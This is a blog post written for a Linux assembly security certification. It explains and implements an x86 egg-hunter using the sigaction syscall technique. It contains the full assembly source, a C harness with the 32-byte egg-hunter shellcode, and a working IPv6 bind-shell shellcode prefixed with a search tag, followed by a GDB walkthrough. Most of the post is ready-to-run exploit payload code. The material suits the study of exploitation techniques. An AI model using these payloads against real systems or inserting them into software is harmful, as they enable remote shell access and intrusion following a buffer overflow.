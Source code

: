 ```yaml
---
layout: post
title: SHELLCODE_EGG_HUNTER – LINUX/X86
---
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification
* Student ID: SLAE-1233
* Assignment: 3
* Github: [Kartik Durg](https://github.com/kartikdurg)

___

#### WHAT IS AN EGG-HUNTER?
The “Egg-Hunter” is a technique used to search for an unique “tag” that was prefixed with the large shellcode and start the execution of shellcode once found.

#### WHY DO WE NEED EGG-HUNTER?
For example, let us assume that you have found a buffer-overflow vulnerability and there is no enough memory space for our bind/reverse shellcode. To solve this problem a unique “tag” is prefixed with our shellcode and then execute “Egg Hunter” shellcode  that is small in size, fast and robust at the same time, this “Egg-Hunter” will search our unique “tag” and starts the execution of large shellcode(bind/reverse) once found.

In this post I will be implementing the “sigaction(2)” approach as discussed by Skape in the [Safely Searching Process Virtual Address Space](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) research paper.

The “sigaction(2)” prototype is as follows:
```
int sigaction(int signum, const struct sigaction *act, struct sigaction *oldact);
```

The EAX register should hold the system call number of “sigaction” as defined below:
```
#define __NR_sigaction 67 [0x43]
```

The goal here is to use the structure of act being in the ECX register for validating the region of memory.

Now let’s jump into the implementation which is as follows:
```
global _start
section .text

_start:
xor ecx, ecx             ;zero out ecx

page_allign: 
xor cx, 0x0fff           ;Page allignment

valid_add: 
inc ecx                  ;increment the pointer to try next valid address
push 0x43                ;push syscall 67 | sigaction
pop eax                  ;EAX=0x43
int 0x80                 ;call sigaction() for validation

efault_cmpsn:
cmp al, 0xf2             ;Low-byte of EAX compared against 0xf2|EFAULT
jz page_allign           ;If ZF set JMP back to "page_allign"

search_tag:
mov eax, 0x4a424f59      ;move the "tag" to EAX register| 0x4a424f59 = JBOY
mov edi, ecx             ;move ECX to EDI
scasd                    ;Compare contents of EDI to the dword value in EAX and increment
jnz valid_add            ;Not equal? then go back to valid_add
scasd                    ;Compare contents of EDI to the dword value in EAX and increment
jnz valid_add            ;Not equal? then go back to valid_add
jmp edi                  ;TAG found ==> Execute the shellcode I'm pointing to
```

To understand this concept, let’s analyze the complete shellcode below:

```
#include <stdio.h> 
#include <string.h> 

#define JBOY "\x59\x4f\x42\x4a"

//Egg-Hunter shellcode
unsigned char egg_hunter[] = "\x31\xc9\x66\x81\xf1\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8\x59\x4f\x42\x4a\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7";

//Bind shell(IPv6)
unsigned char egg[] = JBOY JBOY
"\x6a\x66\x58\x31\xdb\x6a\x06\x6a\x01\x6a\x0a\x43\x89\xe1\xcd\x80\x96\x31\xc0\x50\x50\x50\x50\x50\x66\x68\x11\x5c\x66\x6a\x0a\x89\xe1\x6a\x1c\x51\x56\x89\xe1\x43\x6a\x66\x58\xcd\x80\x53\x56\x89\xe1\x43\x43\x6a\x66\x58\xcd\x80\x99\x52\x52\x56\x89\xe1\x43\x6a\x66\x58\xcd\x80\x93\x6a\x02\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x31\xc9\x51\x6a\x0b\x58\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80";

int main() 
{ 
printf("Egg is at %p\n", egg); 
printf("Egghunter size: %d\n", strlen(egg_hunter)); 
int (*ret)() = (int(*)())egg_hunter; 
ret(); 
}
```

The above shellcode will execute bind shell once the “tag”(JBOY) is identified by our egg-hunter shellcode.

Let’s run the shellcode using GDB and setup a break point at “main” and “egg_hunter”:

![](/media/3-egg-hunter-1.jpg)

Now that we have reached the breakpoint which points to our “Egg-Hunter” shellcode, let us also define a “hook-stop” to examine EAX, ECX and EDI registers every time the execution stops.

![](/media/3-egg-hunter-2.jpg)

After the first XOR instruction, the next two instruction performs page alignment operation by XORing “0xfff” on lower 16-bits of ECX and then incrementing ECX by one.  As noticed in the screenshot below, this operation is equivalent to adding “0x1000” to ECX register.

![](/media/3-egg-hunter-3.jpg)

After the page alignment operation, the lower 16-bit of EAX register is initialized to 0x43[67] which is a system call number of “sigaction” and once the system call is executed it’s return value is then compared with 0xf2 which represents the lower byte of EFAULT. If the lower byte of EAX is equal to 0xf2 the implementation again jumps back to XOR “0xfff” on lower 16-bits of ECX as seen below:

![](/media/3-egg-hunter-4.jpg)

Implementation when lower byte of EAX is “not-equal” to 0xf2:

![](/media/3-egg-hunter-5.jpg)

The value of valid pointer is stored in EDI register after moving the “tag” to EAX register. Next, the scasd instruction compares the contents of memory stored in EDI to the DWORD value in EAX(unique tag).

Instead of stepping through each and every instruction let’s setup a breakpoint on second scasd instruction and continue the execution.

![](/media/3-egg-hunter-6.jpg)

Now that the scasd instruction has been executed twice, the value of EDI will be 8-bytes apart pointing at our shellcode(bind/reverse or any other) as seen below:

![](/media/3-egg-hunter-7.jpg)

Execution of large payload (bind shell):

![](/media/3-egg-hunter-8.jpg)

___

### PROOF OF CONCEPT:

![](/media/3-egg-hunter-9.jpg)

The size of “Egg-hunter” shellcode is just 32-bytes when compared to the original size of  bind shell which is 100-bytes, thus allowing us to execute larger payload when the available memory space is less than payload.

___

Link to shellcode.c: [egg_hunter.c](https://github.com/kartikdurg/SLAE/blob/master/Assignment_0x3/egg_hunter.c)

Link to shellcode.asm: [egg_hunter.asm](https://github.com/kartikdurg/SLAE/blob/master/Assignment_0x3/egg_hunter.asm)

Thank you for reading 🙂

– Kartik Durg